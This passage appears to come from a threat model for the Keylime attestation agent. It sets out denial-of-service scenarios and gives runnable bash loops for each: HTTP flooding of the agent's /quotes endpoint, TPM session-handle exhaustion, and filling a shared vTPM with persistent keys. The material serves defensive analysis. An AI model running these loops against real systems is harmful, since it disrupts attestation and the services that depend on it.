 #### Scenario 2: VM Guest → TPM (Same Trust Domain)
- **Who**: Unprivileged user or process inside the VM running Keylime
- **Position**: Inside the same VM as the Keylime agent
- **Goal**: Prevent attestation by consuming TPM resources
- **Required Access**: Normal user access inside the VM
- **Attack Method**: Create many TPM sessions without proper cleanup

#### Scenario 3: VM/Container → Shared TPM (Resource Competition)
- **Who**: Other VMs or containers sharing the same physical or software TPM
- **Position**: Parallel workload competing for TPM resources
- **Goal**: Starve the target VM/container of TPM resources
- **Required Access**: Access to the shared TPM resource
- **Attack Method**: Legitimate but excessive TPM operations

### Real-World Examples (by attacker position)

#### Example 1: External Network → Agent (HTTP Flooding)
```bash
# Scenario: External attacker with network access
# Vulnerability: No rate limiting on agent API
# Attacker position: Any network position with access to agent

# HTTP request flooding against unprotected /quotes endpoint
for i in {1..1000}; do
  curl -k "https://agent:9002/quotes?nonce=$(openssl rand -hex 32)&pcrmask=0xFFFFFFFF" &
done
# Impact: Agent CPU/memory overwhelmed, legitimate verifier requests fail
```

#### Example 2: Inside VM → Local TPM (Session Exhaustion)
```bash
# Scenario: Unprivileged user inside the VM
# Vulnerability: TPM session handle exhaustion
# Attacker position: Inside the same VM as Keylime agent

# Create maximum TPM sessions without cleanup
for i in {1..100}; do
  # Each session consumes a TPM handle resource
  tpm2_startauthsession --tcti="device:/dev/tpm0" --session session_$i.ctx &
done
# Impact: TPM runs out of session handles, attestation operations fail
```

#### Example 3: Neighbor VM → Shared TPM (Resource Competition)
```bash
# Scenario: Multiple VMs sharing a vTPM
# Vulnerability: Shared TPM resources without isolation
# Attacker position: Another VM using the same hypervisor

# In the attacker VM: Create and use many persistent TPM keys
for i in {1..50}; do
  tpm2_create -C owner -G rsa2048 -u key_$i.pub -r key_$i.priv
  tpm2_load -C owner -u key_$i.pub -r key_$i.priv -c key_$i.ctx
  tpm2_evictcontrol -C o -c key_$i.ctx 0x81000000+$i
done

# Impact: Victim VM can't create its own TPM keys for attestation
```
